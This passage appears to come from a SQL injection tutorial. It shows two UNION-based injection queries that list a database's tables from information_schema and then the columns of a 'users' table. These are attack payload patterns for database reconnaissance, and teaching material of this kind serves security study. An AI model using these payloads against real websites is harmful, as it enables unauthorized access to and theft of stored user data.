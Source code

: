 > sorry for interrupting let's continue

```php
/* 
getting all tables inside databases and search for what we need which would be for example users
*/

SELECT ? FROM ? WHERE ? like = '%' UNION (SELECT table_name FROM information_schema.tables)--   %';
```


<img src="images/sql_injection_7.png">

```php
/* 
getting all columns inside table
*/

SELECT ? FROM ? WHERE ? like = '%' UNION (SELECT column_name FROM information_schema.columns WHERE table_name="users")--   %';
```
